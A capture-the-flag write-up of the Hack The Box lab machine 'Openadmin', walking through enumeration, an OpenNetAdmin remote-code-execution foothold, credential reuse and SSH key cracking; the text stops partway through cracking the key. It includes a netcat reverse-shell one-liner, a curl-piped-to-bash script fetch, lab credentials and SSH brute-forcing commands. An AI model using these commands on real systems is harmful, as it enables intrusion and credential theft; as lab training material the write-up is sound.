








# [EASY] Openadmin <br/>




# <span style="color:red">Introduction</span> 

Openadmin is a EASY machine hosted on Hack The Box.
<br />
Upon initial enumeration, I discovered that ports 22 and 80 were open. Further investigation led me to an intriguing directory, **/music**, on port 80's webpage. Within this directory, I stumbled upon a hidden gem: **/ona**, which was running **OpenNetAdmin v18.1.1**. It didn't take long to realize that this version was vulnerable to remote code execution, granting me a foothold as the www-data user.
<br />

Upon deeper inspection, the configuration file **database_settings.inc.php** revealed **MySQL** credentials, which, interestingly, **Jimmy** had been reusing. This gave me an SSH shell as user jimmy. Delving further into the system, I uncovered an internal server running on port **52846**, a valuable find indeed.
<br />

Exploring an internal website's **index.php** file yielded a hashed password, which I decrypted. Armed with these newfound credentials, I gained access to the internal website. Through the use of **SSH tunneling**, I accessed the website's index.php and successfully logged in using the credentials I had acquired earlier. This allowed me to retrieve an SSH public key associated with user joanna.
<br />

After employing **John the Ripper** to crack the SSH private key password, I attained entry as **joanna**. Securing root privileges proved straightforward, as it was a matter of **nano** privilege escalation.
<br />

In this endeavor, I honed my skills in system enumeration, particularly with low-privileged user accounts. I gained insights into the significance of searching for specific files and executing appropriate commands. Furthermore, the use of SSH tunneling to access internal resources was an enlightening and immensely beneficial experience.


# <span style="color:red">Box Info</span>

<table>
  <thead>
    <tr>
      <th>Name</th>
    <th style="text-align: right"><a href="https://affiliate.hackthebox.com/box?box=openadmin" target="_blank" style="font-size: xx-large; : 0 0 5px #ffffff, 0 0 3px #ffffff; color: #ffffff">
      Openadmin
      </a><br /></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OS</td>
      <td style="text-align: right"><a style="font-size: x-large; : 0 0 5px #ffffff, 0 0 7px #ffffff; color: #2020E">
      Linux
      </a></td>
    </tr>
     <tr>
      <td>1st User blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/13243"></a></td>
    </tr>
    <tr>
      <td>1st System blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/139588"></a></td>
    </tr>
  </tbody>
</table>

# <span style="color:red">Basic Enumeration</span>
## Nmap port scan


Nmap found two open port, 22 and 80.
<br />
SSH  and Apache version is pretty updated and there is no useful vulnerability known for these:
<br />

```nmap
┌──(yoon㉿kali)-[~/Documents/htb/openadmin/nmap]
└─$ cat version-scan-22-80 
# Nmap 7.93 scan initiated Tue Oct 17 11:25:07 2023 as: nmap -sVC -p 22,80 -vv -oN nmap/version-scan-22-80 10.10.10.171
Nmap scan report for 10.10.10.171 (10.10.10.171)
Host is up, received echo-reply ttl 63 (0.30s latency).
Scanned at 2023-10-17 11:25:08 EDT for 60s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcVHOWV8MC41kgTdwiBIBmUrM8vGHUM2Q7+a0LCl9jfH3bIpmuWnzwev97wpc8pRHPuKfKm0c3iHGII+cKSsVgzVtJfQdQ0j/GyDcBQ9s1VGHiYIjbpX30eM2P2N5g2hy9ZWsF36WMoo5Fr+mPNycf6Mf0QOODMVqbmE3VVZE1VlX3pNW4ZkMIpDSUR89JhH+PHz/miZ1OhBdSoNWYJIuWyn8DWLCGBQ7THxxYOfN1bwhfYRCRTv46tiayuF2NNKWaDqDq/DXZxSYjwpSVelFV+vybL6nU0f28PzpQsmvPab4PtMUb0epaj4ZFcB1VVITVCdBsiu4SpZDdElxkuQJz
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2tPAFPpvipRrLE=
|   256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcV0sVI0yWfjKsl7++B9FGfOVeWAIWZ4YGEMROPxxk4
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 17 11:26:08 2023 -- 1 IP address (1 host up) scanned in 61.33 seconds
```


## Feroxbuster

Directory busting on port 80, I found interesting url: **/music**.
<br />
I checked on **/artwork** and **/sierra** as well, but it were dummy directories.
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ sudo feroxbuster -u http://10.10.10.171 -n -x php,html -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o feroxbuster-php-html-txt-zip.txt
<snip>
200      GET       15l       74w     6147c http://10.10.10.171/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.10.171/
200      GET      375l      964w    10918c http://10.10.10.171/index.html
301      GET        9l       28w      312c http://10.10.10.171/music => http://10.10.10.171/music/
301      GET        9l       28w      314c http://10.10.10.171/artwork => http://10.10.10.171/artwork/
301      GET        9l       28w      313c http://10.10.10.171/sierra => http://10.10.10.171/sierra/

```

## Port 80 (/music)


<br />

Looking through the website, I found out when going to **Login**, I am redirected to new directory: **/ona**.

## Port 80 (/ona)



Going to **/ona**, I instantly, figured out this must be the initial foothold stage. 
<br />

**opennetadmin v18.1.1** was running on **/ona** and from googling, I found out this version is vulnerable to remote code execution.

# <span style="color:red">Gaining shell as www-data</span>
## one-rce.py
Using [tool](https://github.com/amriunix/ona-rce) I found on github, I was able to gain initial foothold of the box.
<br />

```bash
┌──(yoon㉿kali)-[/opt/ona-rce-master]
└─$ ./ona-rce.py exploit http://10.10.10.171/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<br />

Unfortunately, shell pwned using **ona-rce.py** was restrcited only to /opt/ona/www so I needed a better shell.
<br />

## Reverse Shell

With **netcat listener** running on my local machine, I ran reverse shell command: ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f```
<br />



<br />

Now I have a better shell as user **www-data**.


# <span style="color:red">www-data -> jimmy</span>

I first made the shell more interactive using python:
<br />

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
<br />

## linpeas.sh

I ran **linpeas** to check what interesting files are out there.
<br />

Nothing interesting was found other than what users are signed in to the system: **jimmy, joanna, and root**, and that MySQL is running.  
<br />

```
www-data@openadmin:/opt/ona/www$ curl http://10.10.14.8:80/linpeas.sh | bash
<snip>
[+] Users with console
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
## Enumerating files

I found credential to mysql on **databse_settings.inc.php**:
<br />

```bash
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
<snip>
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
<snip>
```

## MySQL

I was able to signin to MySQL using the credentials I found earlier:
<br />

```sql
www-data@openadmin:/opt/ona/www/local/config$ mysql -u ona_sys -p
mysql -u ona_sys -p
Enter password: n1nj4W4rri0R!

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 83
Server version: 5.7.28-0ubuntu0.18.04.4 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
<br />

On **ona_default** database I found password hash for user **guest and admin**:
<br />

```sql
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ona_default        |
+--------------------+
2 rows in set (0.00 sec)

mysql> use ona_default
use ona_default
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
show tables;
+------------------------+
| Tables_in_ona_default  |
+------------------------+
| blocks                 |
| configuration_types    |
| configurations         |
| custom_attribute_types |
| custom_attributes      |
| dcm_module_list        |
| device_types           |
| devices                |
| dhcp_failover_groups   |
| dhcp_option_entries    |
| dhcp_options           |
| dhcp_pools             |
| dhcp_server_subnets    |
| dns                    |
| dns_server_domains     |
| dns_views              |
| domains                |
| group_assignments      |
| groups                 |
| host_roles             |
| hosts                  |
| interface_clusters     |
| interfaces             |
| locations              |
| manufacturers          |
| messages               |
| models                 |
| ona_logs               |
| permission_assignments |
| permissions            |
| roles                  |
| sequences              |
| sessions               |
| subnet_types           |
| subnets                |
| sys_config             |
| tags                   |
| users                  |
| vlan_campuses          |
| vlans                  |
+------------------------+
40 rows in set (0.00 sec)

mysql> describe users;
describe users;
+----------+------------------+------+-----+-------------------+-----------------------------+
| Field    | Type             | Null | Key | Default           | Extra                       |
+----------+------------------+------+-----+-------------------+-----------------------------+
| id       | int(10) unsigned | NO   | PRI | NULL              | auto_increment              |
| username | varchar(32)      | NO   | UNI | NULL              |                             |
| password | varchar(64)      | NO   |     | NULL              |                             |
| level    | int(4)           | NO   |     | 0                 |                             |
| ctime    | timestamp        | NO   |     | CURRENT_TIMESTAMP | on update CURRENT_TIMESTAMP |
| atime    | datetime         | YES  |     | NULL              |                             |
+----------+------------------+------+-----+-------------------+-----------------------------+
6 rows in set (0.00 sec)

mysql> select id, username, password from users;
select id, username, password from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

## Cracking password hash

Using crackstation, I cracked password hash and it was **test** and **admin**:
<br />



## Bruteforcing SSH login

I created two txt files: **user.txt** and **password.txt** so that I can use medusa to bruteforce:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ cat password.txt user.txt 
test
admin
n1nj4W4rri0R!
root
jimmy
joanna
```
<br />

Running medusa, matching credential was found: **jimmy:n1nj4W4rri0R!**.
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ medusa -h 10.10.10.171 -U user.txt -P password.txt -M ssh             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
<snip>
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
```
<br />

SSHing using found credential, I was able to signin as **jimmy**. 


# <span style="color:red">jimmy -> joanna</span>

I first checked if there's any file in current directory, but nothing interesting was found.
<br />

```bash
jimmy@openadmin:~$ ls -la
total 36
drwxr-x--- 6 jimmy jimmy 4096 Oct 20 06:04 .
drwxr-xr-x 4 root  root  4096 Nov 22  2019 ..
lrwxrwxrwx 1 jimmy jimmy    9 Nov 21  2019 .bash_history -> /dev/null
-rw-r--r-- 1 jimmy jimmy  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jimmy jimmy 3771 Apr  4  2018 .bashrc
drwx------ 2 jimmy jimmy 4096 Nov 21  2019 .cache
drwx------ 3 jimmy jimmy 4096 Nov 21  2019 .gnupg
drwxrwxr-x 3 jimmy jimmy 4096 Nov 22  2019 .local
-rw-r--r-- 1 jimmy jimmy  807 Apr  4  2018 .profile
drwx------ 2 jimmy jimmy 4096 Oct 20 06:04 .ssh
```
<br />

I checked for **SETUID** files but nothing seemed interesting as well.
<br />

```bash
jimmy@openadmin:~$ find / -perm -4000 -ls 2>/dev/null
     1501    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     1318     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
     1094    108 -rwsr-sr-x   1 root     root       109432 Jul 12  2019 /usr/lib/snapd/snap-confine
     7657    100 -rwsr-xr-x   1 root     root       100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1311     44 -rwsr-xr--   1 root     messagebus    42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1505     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
      947     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /usr/bin/newgrp
      984     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2019 /usr/bin/pkexec
      946     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
     1547    688 -rwsr-xr-x   1 root     root         703408 Jun 11  2021 /usr/bin/sudo
      964     60 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /usr/bin/passwd
      948     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap
      744     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /usr/bin/chsh
     1125     20 -rwsr-xr-x   1 root     root          18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      742     76 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /usr/bin/chfn
      837     76 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /usr/bin/gpasswd
      691     52 -rwsr-sr-x   1 daemon   daemon        51464 Feb 20  2018 /usr/bin/at
   262277     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262279     28 -rwsr-xr-x   1 root     root          26696 Aug 22  2019 /bin/umount
   262293     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262235     44 -rwsr-xr-x   1 root     root          43088 Aug 22  2019 /bin/mount
   262226     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
       66     40 -rwsr-xr-x   1 root     root          40152 May 15  2019 /snap/core/7270/bin/mount
       80     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /snap/core/7270/bin/ping
       81     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /snap/core/7270/bin/ping6
       98     40 -rwsr-xr-x   1 root     root          40128 Mar 25  2019 /snap/core/7270/bin/su
      116     27 -rwsr-xr-x   1 root     root          27608 May 15  2019 /snap/core/7270/bin/umount
     2657     71 -rwsr-xr-x   1 root     root          71824 Mar 25  2019 /snap/core/7270/usr/bin/chfn
     2659     40 -rwsr-xr-x   1 root     root          40432 Mar 25  2019 /snap/core/7270/usr/bin/chsh
     2735     74 -rwsr-xr-x   1 root     root          75304 Mar 25  2019 /snap/core/7270/usr/bin/gpasswd
     2827     39 -rwsr-xr-x   1 root     root          39904 Mar 25  2019 /snap/core/7270/usr/bin/newgrp
     2840     53 -rwsr-xr-x   1 root     root          54256 Mar 25  2019 /snap/core/7270/usr/bin/passwd
     2950    134 -rwsr-xr-x   1 root     root         136808 Jun 10  2019 /snap/core/7270/usr/bin/sudo
     3049     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 10  2019 /snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3419    419 -rwsr-xr-x   1 root     root              428240 Mar  4  2019 /snap/core/7270/usr/lib/openssh/ssh-keysign
     6452    101 -rwsr-sr-x   1 root     root              102600 Jun 21  2019 /snap/core/7270/usr/lib/snapd/snap-confine
     7622    386 -rwsr-xr--   1 root     dip               394984 Jun 12  2018 /snap/core/7270/usr/sbin/pppd
       66     40 -rwsr-xr-x   1 root     root               40152 Oct 10  2019 /snap/core/8039/bin/mount
       80     44 -rwsr-xr-x   1 root     root               44168 May  7  2014 /snap/core/8039/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44680 May  7  2014 /snap/core/8039/bin/ping6
       98     40 -rwsr-xr-x   1 root     root               40128 Mar 25  2019 /snap/core/8039/bin/su
      116     27 -rwsr-xr-x   1 root     root               27608 Oct 10  2019 /snap/core/8039/bin/umount
     2665     71 -rwsr-xr-x   1 root     root               71824 Mar 25  2019 /snap/core/8039/usr/bin/chfn
     2667     40 -rwsr-xr-x   1 root     root               40432 Mar 25  2019 /snap/core/8039/usr/bin/chsh
     2743     74 -rwsr-xr-x   1 root     root               75304 Mar 25  2019 /snap/core/8039/usr/bin/gpasswd
     2835     39 -rwsr-xr-x   1 root     root               39904 Mar 25  2019 /snap/core/8039/usr/bin/newgrp
     2848     53 -rwsr-xr-x   1 root     root               54256 Mar 25  2019 /snap/core/8039/usr/bin/passwd
     2958    134 -rwsr-xr-x   1 root     root              136808 Oct 11  2019 /snap/core/8039/usr/bin/sudo
     3057     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 10  2019 /snap/core/8039/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3427    419 -rwsr-xr-x   1 root     root              428240 Mar  4  2019 /snap/core/8039/usr/lib/openssh/ssh-keysign
     6462    105 -rwsr-sr-x   1 root     root              106696 Oct 30  2019 /snap/core/8039/usr/lib/snapd/snap-confine
     7636    386 -rwsr-xr--   1 root     dip               394984 Jun 12  2018 /snap/core/8039/usr/sbin/pppd
```
<br />

Looking through files that **jimmy** has permission over, **/var/www/internal** was found:
<br />

```bash
jimmy@openadmin:~$ find / -user jimmy 2>/dev/null
<snip>
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
<snip>
```
<br />

This probably means there is an internal server running here and I confirmed this through **ss -ltmp**, seeing there is port 52846 open, which probably is the internal website:
<br />

```bash
jimmy@openadmin:/var/www/internal$ ss -ltnp
State         Recv-Q         Send-Q                  Local Address:Port                  Peer Address:Port        
LISTEN        0              80                          127.0.0.1:3306                       0.0.0.0:*           
LISTEN        0              128                         127.0.0.1:52846                      0.0.0.0:*           
LISTEN        0              128                     127.0.0.53%lo:53                         0.0.0.0:*           
LISTEN        0              128                           0.0.0.0:22                         0.0.0.0:*           
LISTEN        0              128                                 *:80                               *:*           
LISTEN        0              128                              [::]:22                            [::]:*   ```
```
<br />
Looking into **/etc/apache2/sites-enabled** to see what sites are running, I can see there's internal website running on port 52846:
<br />

```bash
jimmy@openadmin:/etc/apache2/sites-enabled$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Looking at **index.php** I found username **jimmy** and sha512 hased password:

<br />

```php
<snip>
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
<snip>
```
<br />

I was able to decrypt the password through md5decrypt.net, which was **revealed**.

<br />




<br />

**main.php** seemed to be page that shows **id_rsa** key:

<br />

```bash
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

## SSH Tunneling

In order to access this pages, I decided to do SSH tunneling. 
<br />

```
┌──(yoon㉿kali)-[/opt/ona-rce-master]
└─$ ssh jimmy@10.10.10.171 -L 52846:127.0.0.1:52846
jimmy@10.10.10.171's password: 
```
<br />
Now with SSH tunneling, I can access the internal website:
<br />



Signing in with **jimmy:Revealed** I now see id_rsa key for user **joanna**, as I expected from **main.php**. 
<br />
It is also saying to not forget about ninja password, which at this point I thought it is the password I found earlier.
<br />



<br />

I copy pasted id_rsa key found from main.php to my local machine and gave it a name **id_rsa**:

<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ sudo nano id_rsa    
[sudo] password for yoon: 
```

Now, I tried sshing as user joanna but password wouldn't work:
<br />

```bash                                   
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
```

## Cracking SSH private key

I can use john to crack the password so I first created hash using **ssh2john**

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ ssh2john id_rsa > id_rsa.hash
```
<br />

Remembering **main.php** was reminding about **ninja** password, I greped passwords that include ninja in it from rockyou.txt.

<br />

```bash
┌──(yoon㉿kali)-[/usr/share/wordlists]
└─$ sudo grep "ninja" rockyou.txt > ~/Documents/htb/openadmin/ninja-extracted-rockyou.txt
```

<br />

